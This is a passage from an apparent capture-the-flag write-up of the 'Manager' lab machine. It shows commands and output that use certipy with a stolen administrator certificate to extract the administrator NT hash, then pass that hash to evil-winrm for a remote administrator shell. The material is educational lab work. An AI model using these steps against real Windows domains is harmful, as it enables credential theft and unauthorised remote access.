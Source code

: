 With this certificate as the administrator user, the easiest way to get a shell is to use it to get the NTLM hash for the user with the auth command. This requires the VM and target times to be in sync.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236                                   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

With the hash, we can connec to evil-winrm:

```bash
oxdf@hacky$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

and grab the root.txt file
